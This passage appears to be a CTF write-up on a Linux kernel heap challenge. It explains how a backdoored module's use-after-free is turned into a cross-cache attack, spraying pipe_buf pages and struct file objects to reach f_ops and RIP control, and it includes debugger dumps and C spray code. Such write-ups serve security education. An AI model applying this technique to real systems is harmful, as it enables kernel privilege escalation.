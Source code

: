 ```c
  return result;
}
```
the basic functionality is to allocate and free heap chunks. however there is a backdoor, which
lets us free a single chunk without clearing its reference, resulting in a single use-after-free.
how do we continue? it's obvious that we need to do some kind of cross-cache attack, in order
to break out of the accounted kmem cache dedicated to this module. 

while searching for the right objects, I found out that `msg_msg` object is not easily sprayable,
plus userfaultfd and FUSE seem to be impossible. however I found `pipe_buf` and the associated
struct `page` is a good candidate to do some pre-spraying, since you can spray a lot of data at once.
this worked, and we can overlap our uaf chunk with user controlled data:
```
pwndbg> x/200gx 0xffffffffc0233420
0xffffffffc0233420:	0x0000000000000000	0x0000000000000000
0xffffffffc0233430:	0x0000000000000000	0x0000000000000000
...
0xffffffffc0233a10:	0x0000000000000000	0x0000000000000000
0xffffffffc0233a20:	0xffff9fb35767e100	0x0000000000000000
0xffffffffc0233a30:	0x0000000000000000	0x0000000000000000
pwndbg> x/20gx 0xffff9fb35767e100
0xffff9fb35767e100:	0x4141414141414141	0x4141414141414141
0xffff9fb35767e110:	0x4141414141414141	0x4141414141414141
0xffff9fb35767e120:	0x4141414141414141	0x4141414141414141
...
```

however I found it quite difficult to corrupt `pipe_buf` itself, so we need a second target object.
I came to the conclusion, that spraying struct `file` wouldn't be a bad idea, since we have
sufficient permissions and it has `f_ops` member, which points to a function table. we could
corrupt this pointer to get rip control, plus identify the exact struct `file` which overlaps:
```c
    int fds[0x1000];

    for(int i = 0; i < 0x1000; i++) {
        fds[i] = open("/tmp/x", O_RDWR);
        if(fds[i] < 0) {
            perror("open");
            exit(-1);
        } 
    }

    uaf_delete(fd, loc); // free's struct file

    int fds2[0x1000];

    for(int i = 0; i < 0x1000; i++)
        fds2[i] = open("/bin/busybox", O_RDONLY);

    unsigned long x = 0x4141414141414141;
    int overlap_idx = -1;

    for(int i = 0; i < 0x1000; i++) {
        if(write(fds[i], &x, 8) < 0) {
            perror("write");
            overlap_idx = i;
            break;
        }
    }
```
(we achieve this by checking if file permissions have been altered)
